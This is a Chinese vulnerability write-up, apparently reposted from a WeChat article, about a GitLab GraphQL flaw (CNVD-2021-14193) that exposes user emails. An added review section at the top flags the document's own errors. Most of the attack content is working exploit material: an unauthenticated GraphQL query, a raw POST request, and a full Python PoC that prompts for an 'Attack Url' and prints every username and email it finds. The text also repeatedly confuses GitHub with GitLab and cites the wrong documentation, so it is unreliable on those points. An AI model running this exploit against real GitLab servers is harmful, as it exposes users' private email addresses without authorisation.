







## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：13.4–13.6.2 inclusive claimed; endpoint noauth request; full patched branches omitted

代码与实验材料：Query,HTTP and Python included; enumerates only first response page, checks broad substrings then loops999

来源证据范围：GitLab issue244275, original WeChat, PeiQi script credit; wrong GitHubGraphQL docs

- **事实待核（1）**：Repeated GitHub/GitLab product confusion and wrong GraphQL documentation。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：All-user claim ignores pagination; private vs public email not controlled; broad version interval includes possible patched branch builds。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# GitLab Graphql 邮箱信息泄露漏洞 CNVD-2021-14193

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/us6cQKy_h8aR1b2zUAzh_w)


**一****：漏洞描述🐑**

GitLab 中存在 Graphql 接口 输入构造的数据时会泄露用户邮箱和用户名

**二:  漏洞影响🐇**

**GitLab 13.4 - 13.6.2**

**三:  漏洞复现🐋**

**转 CNVD 的时候发现一个 Github 半公开的信息泄露漏洞**



在 Hackone 中看到了有关的报告和修复方法

地址: https://gitlab.com/gitlab-org/gitlab/-/issues/244275  



**这里报告的意思为调用 Graphql 的查询方法来返回用户的邮箱，而 GitLab 的用户邮箱并不是公开的**

**查看有关的 Github 与 Graphql 资料发现**

**Github 中是存在 Graphql 接口的** 

**接口地址为:** **http://xxx.xxx.xxx.xxx/-//graphql-explorer**



**这里使用报告中的查询方法来获取用户邮箱，而这里的前提却是需要已知的用户名**

**通过查看文档等等，可以调用来返回用户邮箱**

**https://docs.github.com/en/graphql/overview/explorer**

**https://graphql.cn/**



**请求 POC 为**

```
{
users {
edges {
  node {
    username
    email

   }
  }
 }
}
```

同样的通过抓包向接口发送数据也可以返回敏感数据

**请求包为**

```
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```



成功返回数据，造成 Gitlab 的用户邮箱信息泄露  

****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



 ****五:  Goby & POC🦉****

```
GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413
EXP放在 Goby & POC 目录中可一键导入Goby扫描 
阅读原文 ----> Github ----> Goby & POC 目录
```



最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 别忘了 Github 下载完给个小星星⭐


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
